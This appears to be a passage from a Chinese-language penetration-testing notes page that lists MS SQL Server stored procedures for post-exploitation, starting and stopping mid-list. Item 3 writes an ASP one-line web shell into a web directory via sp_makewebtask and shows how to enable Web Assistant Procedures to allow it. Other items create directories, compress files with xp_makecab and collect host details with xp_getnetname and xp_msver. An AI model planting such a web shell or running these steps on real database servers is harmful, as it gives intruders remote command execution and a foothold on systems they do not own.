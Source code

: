    

3. 写文件

   ```
   exec sp_makewebtask 'c:\www\testwr.asp','select''<%execute(request("SB"))%>'' '
   ```

   需要开启Web Assistant Procedures

   ```
   exec sp_configure 'Web Assistant Procedures', 1; RECONFIGURE
   ```

   在sql server 2012上开启失败。

4. 创建目录

   ```
   exec xp_create_subdir 'D:\test'
   ```

5. 压缩文件

   ```
   exec xp_makecab 'c:test.cab', 'mszip', 1, 'c:test.txt' , 'c:test1.txt'
   ```

   它允许你指定一列你想压缩的文件还有你想放进去的 cab 文件。它甚至允许你选择默认压缩， MSZIP 压缩 ( 类似于 .zip文件格式 ) 或不压缩。第一个参数给出到 cab 文件的路径，这是你想创建和添加文件的地方。第二个参数是压缩级别。如果你想使用详细的日志记录就使用第三个参数。第四个参数后跟着你想压缩的文件的名称。可以在扩展存储过程里传 多个要压缩的文件名称。

   

## 信息获取

1. 获取机器名

   ```
   exec xp_getnetname
   ```

   

2. 获取系统信息

   ```
   exec xp_msver
   ```
